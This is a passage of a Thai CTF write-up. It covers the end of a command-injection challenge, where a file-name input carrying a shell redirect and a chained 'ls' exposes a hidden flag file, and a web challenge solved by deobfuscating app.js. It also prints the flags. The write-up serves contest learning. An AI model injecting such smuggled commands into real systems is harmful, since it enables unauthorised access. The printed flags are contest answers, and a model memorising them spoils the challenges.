ซึ่งเราก็ลองเล่นอยู่น่าน จนเมื่อเราลองใส่อะไรแปลกๆเข้าไปแล้วมันขึ้น Could not execute the command เราจึงคิดว่านี้อาจมีใช้วิธีการ cat file แน่ๆ แต่ก็เหมือนมี filter อยู่ กันอะไรแปลกๆ ใช้เวลาสักพัก เราก็เจอว่าถ้าเรา nice_list.txt>out.txt แล้วไม่มี error และไม่แสดงผลด้วย ทำให้มันใจได้เลยว่าเราต้อง inject shell เข้าไป ซึ่งเราใช้วิธี and เข้าไปอีกคำสั่งคือ ls เข้าไปเก็บที่ out2.txt แล้วเปิดดู ก็พบ random_flag.txt


`captionless image`

```txt
misc{Mf5Ojhr0C9}
```

# Merry Christmas

_Santa’s festive webpage hides a secret path that leads to a locked area, but uncovering it won’t be easy. By carefully exploring the site and piecing together hidden clues, you’ll discover the final treasure. Santa’s secrets are well protected, can you find the way in and get the flag?_

เราทำการสำรวจเว็บสักพักแล้วพบกับ `app.js` ที่ถูก obfuscate ไว้


`burp suite`

ด้วยความสงสัยเราจึงทำการ deobfuscate ดู


`Deobfuscated`

::github{repo="relative/synchrony"}

หลังจากสังเกตุไปสักพักเราพบ array เลขแปลกๆที่น่าจะเหมือน character


`captionless image`

มีหลายข้อความครับ ซึ่งก็ไม่เยอะเท่าไหร่ เราจึงลองมันทุกตัวไปเลย และแล้วก็เจอ

```txt
web{nandemonaiya}
```

ก็จบไปแล้วนะครับสำหรับ writeup ครั้งนี้สำหรับผม เขียนนานเอาเรื่องเลยทีเดียว สำหรับงานนี้ผมว่าสนุกดีครับ จัดยาวๆ 4 วัน ผมก็ใช้เวลายาวๆเหมือนกัน (ผม solve ช้าอะ) และได้ลองทำอะไรที่ไม่เคยทำ ศึกษาไปด้วยทำไปด้วย อย่างการทำ Privilege Escalation หรือ C# Deobfuscate และ Python disassembler เป็นต้น

แอบเสียดาย 2 ข้อครับ คือ Phantom of the Network 4, 5 ซึ่งผมหาแหล่งข้อมูลไม่ได้ หาผิดที่นั้นแหละ แล้วคือสองข้อนี้เหมือนมัดรวมกันมา ถ้าตอบได้ 1 ตัวอีกตัวก็จะตอบได้ประมาณนี้


`WHATTTTTTT ???`

**ผม solve ไม่ได้หรอกแค่เอามาแปะเฉยๆ**
